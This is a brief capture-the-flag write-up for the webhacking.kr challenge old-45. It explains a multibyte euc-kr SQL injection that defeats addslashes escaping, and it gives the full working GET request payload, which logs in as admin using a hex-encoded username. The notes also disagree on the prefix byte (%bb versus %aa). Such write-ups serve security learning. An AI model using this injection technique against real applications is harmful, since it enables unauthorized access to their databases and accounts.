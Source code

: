 # Webhacking old-45 Solution

another sql injection.
here we use insert %bb and then, after the addslashes put `\` before the `'`, it'll take the %bb + `\` and encode in `euc-kr` format.

this is the payload i gave:

here we want to insert this: `id=%aa%27%20or%20id%20like%200x61646d696e'`, this is like: `' or id like admin`
this is the query i used in the http get
```
https://webhacking.kr/challenge/web-22/?id=%aa%27%20or%20id%20like%200x61646d696e--%20&pw=guest
```
